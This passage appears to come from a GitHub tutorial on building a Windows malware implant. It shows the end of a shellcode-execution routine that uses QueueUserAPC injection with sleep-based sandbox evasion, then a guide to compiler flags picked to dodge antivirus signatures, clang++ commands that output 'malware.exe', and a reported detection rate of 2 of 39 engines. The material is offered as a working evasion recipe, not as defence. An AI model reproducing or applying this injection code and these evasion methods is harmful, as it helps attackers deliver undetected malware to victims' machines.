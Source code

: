 ```bash
            case STATE_EXECUTE:
                // Queue the APC for the shellcode to be executed
                advancedSleep();
                randomSleep(10000, 110000);
                
                pQueueUserAPC((PAPCFUNC)bufferAddr, pi->hThread, NULL);
                state = STATE_DONE;
                break;

            default:
                state = STATE_DONE;
                break;
        }
    }
}
```
## Compiling with different Flags to reduce detection
Optimizing and using different flags can lead to reduced signatures because each time a different PE file is produced.

Using different compilation flags can significantly reduce the detection rate of malware by security tools, as each compilation can result in a unique Portable Executable (PE) file with variations in structure, function ordering, and optimizations, thereby reducing signature-based detection.

Key Flags and Their Impact:
-O2: Optimizes the code for speed, producing efficient binary code.

-Ob2: Inlines functions aggressively, making the code harder to analyze by combining multiple functions into one.

-Os: Optimizes for binary size, reducing the file size, which can help evade detection as the smaller footprint might bypass some heuristic checks.

-fno-stack-protector: Disables stack protection mechanisms, which are security features. While this reduces protection against buffer overflows, it might also reduce the likelihood of triggering security defenses in static analysis.

-fno-unroll-loops: Prevents loop unrolling, keeping loops as-is. This reduces the predictability of code patterns that AV engines often flag.

-s: Strips debugging information, making the binary smaller and removing unnecessary symbols that might contribute to detection.

-Xlinker -pdb:none: Removes the generation of program database files (PDBs), further reducing metadata that can trigger detection.

-Xlinker -subsystem:console: Specifies the subsystem for the executable, which can alter how it's handled by the OS and can make it harder for some scanners to detect.

By combining these flags, each compilation creates a binary with different characteristics, thus evading detection mechanisms that rely on static signatures.

```bash
clang++.exe -O2 -Ob2 -Os -fno-stack-protector -o your_malware.exe implant.cpp -luser32 -lkernel32 -fno-unroll-loops -fno-exceptions -fno-rtti -s

clang++.exe -O2 -Ob2 -Os -fno-stack-protector -Xlinker -pdb:none -Xlinker -subsystem:console -o malware.exe implant.cpp -luser32 -lkernel32 -fno-unroll-loops -fno-exceptions -fno-rtti  GNU
``

- [**Results**](#section-8)

Uploading the implant.exe, we get a detection rate of 2 out of 39 engines from Kleenscan
https://kleenscan.com/scan_result/d7abfbf0cddff7295257abcaafde2181b88ce647e18e2bc51c2d5f82425bb120 